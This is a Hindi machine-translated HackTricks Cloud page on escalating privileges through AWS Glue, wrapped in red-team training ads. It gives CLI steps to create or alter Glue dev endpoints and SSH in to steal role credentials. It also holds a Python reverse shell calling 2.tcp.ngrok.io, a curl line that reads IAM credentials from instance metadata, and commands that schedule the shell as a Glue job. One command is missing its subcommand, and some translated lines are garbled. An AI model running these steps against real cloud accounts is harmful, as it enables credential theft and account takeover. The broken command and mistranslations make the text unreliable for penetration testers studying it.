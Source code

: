 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

इन अनुमतियों वाले उपयोगकर्ता **एक नया AWS Glue विकास अंत बिंदु सेटअप कर सकते हैं**, **Glue द्वारा अनुमेय एक मौजूदा सेवा भूमिका को इस अंत बिंदु पर विशिष्ट अनुमतियों के साथ असाइन कर सकते हैं**।

सेटअप के बाद, **हमलावर अंत बिंदु के उदाहरण में SSH कर सकता है**, और असाइन की गई भूमिका के IAM क्रेडेंशियल चुरा सकता है:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
गोपनीयता के उद्देश्य के लिए, Glue वर्चुअल मशीन के अंदर IAM क्रेडेंशियल्स का उपयोग करने की सिफारिश की जाती है।

**संभावित प्रभाव:** निर्दिष्ट Glue सेवा भूमिका तक प्रिवेस्क।

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

इस अनुमति वाले उपयोगकर्ता **एक मौजूदा Glue विकास** अंत बिंदु की SSH कुंजी को **बदल सकते हैं, जिससे SSH पहुंच सक्षम होती है**। इससे हमलावर को अंत बिंदु की संलग्न भूमिका के विशेषाधिकारों के साथ आदेश निष्पादित करने की अनुमति मिलती है:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**संभावित प्रभाव:** उपयोग की गई गोंद सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

उपयोगकर्ता जिनके पास **`iam:PassRole`** है, जो **`glue:CreateJob` या `glue:UpdateJob`** के साथ, और **`glue:StartJobRun` या `glue:CreateTrigger`** के साथ मिलकर **AWS Glue नौकरी** बना या अपडेट कर सकते हैं, किसी भी **गोंद सेवा खाते** को संलग्न कर सकते हैं, और नौकरी के निष्पादन को प्रारंभ कर सकते हैं। नौकरी की क्षमताओं में मनमाने Python कोड को चलाना शामिल है, जिसका उपयोग एक रिवर्स शेल स्थापित करने के लिए किया जा सकता है। इस रिवर्स शेल का उपयोग फिर **IAM क्रेडेंशियल** को निकालने के लिए किया जा सकता है जो गोंद नौकरी से जुड़ी भूमिका के हैं, जिससे उस भूमिका के अनुमतियों के आधार पर संभावित अनधिकृत पहुंच या क्रियाएं हो सकती हैं:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**संभावित प्रभाव:** निर्दिष्ट ग्लू सेवा भूमिका के लिए प्रिवेस्क।

### `glue:UpdateJob`

केवल अपडेट अनुमति के साथ, एक हमलावर पहले से जुड़े भूमिका के IAM क्रेडेंशियल्स चुरा सकता है।

**संभावित प्रभाव:** जुड़े हुए ग्लू सेवा भूमिका के लिए प्रिवेस्क।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
